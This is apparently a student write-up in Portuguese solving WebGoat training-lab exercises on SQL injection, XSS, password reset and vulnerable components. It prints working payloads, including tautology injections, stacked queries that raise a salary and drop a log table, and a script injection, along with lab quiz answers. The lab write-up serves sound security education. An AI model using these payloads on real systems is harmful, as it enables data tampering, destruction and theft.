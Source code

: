 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)


### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

![1.13](./imagens/1.13.png)



## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

![2.2](./imagens/2.2.png)


### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

![2.10.1](./imagens/2.10.1.png)



![2.10.2](./imagens/2.10.2.png)


### 11) ###

Para a realização deste ponto foram abertos a consola e um novo separador com a rota anteriormente encontrada. Nessa rota foi acrescentado o comando: 

    
    /<script>webgoat.customjs.phoneHome()<%2Fscript>
    
De seguida, na consola foi nos apresentado a resposta.
     



### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4



## Pergunta 3.1 - Password Reset ##

### 2) ###

Após seguir as instruções, foi iniciado o WebWolf para aceder ao email e realizar o login, como mostram as figuras abaixo:

![3.2.1](./imagens/3.2.1.png)


![3.2.2](./imagens/3.2.2.png)


### 4) ###

Após várias tentativas as cores encontradas foram:

+ **Admin**: Green
+ **Larry**: Yellow
+ **Tom**: Purple


### 6) ###

## Pergunta 4.1 - Vulnerable components ##

### 12) ###
Para explorar a vulnerabilidade presente bastou inserir o seguinte excerto de código:

    <java.lang.Integer>1</java.lang.Integer>



  

  
    




